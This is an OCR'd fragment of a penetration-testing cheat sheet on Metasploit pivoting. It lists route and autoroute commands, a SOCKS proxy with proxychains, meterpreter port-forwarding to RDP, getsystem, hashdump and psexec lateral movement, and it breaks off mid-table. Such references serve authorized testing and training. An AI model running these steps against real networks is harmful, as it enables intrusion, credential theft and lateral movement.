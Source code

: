 |                                                              |                                                              |
| route add target_network target_mask session#                | Add a route from Metasploit                                  |
| [msf > route add 10.10.10.0  255.255.255.0 2]                |                                                              |
| route print                                                  | Check the routing table                                      |
|                                                              |                                                              |
| use a bind payload for the  second target !                  |                                                              |
|                                                              |                                                              |
| If  not through metasploit but use programs from computer then also use  proxychains |                                                              |
| background                                                   |                                                              |
| msf > use  auxiliary/server/socks4a                          |                                                              |
| run                                                          |                                                              |
|                                                              |                                                              |
| echo "socks4 127.0.0.1  1080 >> /etc/proxychains.conf        | edit /etc/proxychains.conf to include "socks4 127.0.0.1  SRVPORT" where SRVPORT is whatever port you chose |
| proxychains nmap -sT -n -Pn -p  21 10.10.10.1                |                                                              |
| proxychains telnet 10.10.10.1                                |                                                              |
|                                                              |                                                              |
| Port forwarding [in addition  to the added route]            |                                                              |
| meterpreter > portfwd add  -l 3333 -p 3389 -r 10.10.10.5     | the following command will open a listener on our local IP  address on port 3333, and will forward the connection to the IP address  10.10.10.5 on port 3389 |
| rdesktop 127.0.0.1:3333                                      | establish an RDP session to our local IP address on port 3333 |
| portfwd list                                                 |                                                              |
|                                                              |                                                              |
| ----------------- [+]  Metasploit Pivot                      |                                                              |
| Compromise 1st machine                                       |                                                              |
|                                                              |                                                              |
| # meterpreter> run  arp_scanner -r 10.10.10.0/24             |                                                              |
| route add 10.10.10.10  255.255.255.248 <session>             |                                                              |
| use  auxiliary/scanner/portscan/tcp                          |                                                              |
| use bind shell                                               |                                                              |
|                                                              |                                                              |
| or run autoroute:                                            |                                                              |
| # meterpreter > ipconfig                                     |                                                              |
| # meterpreter > run  autoroute -s 10.1.13.0/24               |                                                              |
| # meterpreter > getsystem                                    |                                                              |
| # meterpreter > run  hashdump                                |                                                              |
| # use  auxiliary/scanner/portscan/tcp                        |                                                              |
| # msf auxiliary(tcp) > use  exploit/windows/smb/psexec       |                                                              |
|                                                              |                                                              |
| or port forwarding:                                          |                                                              |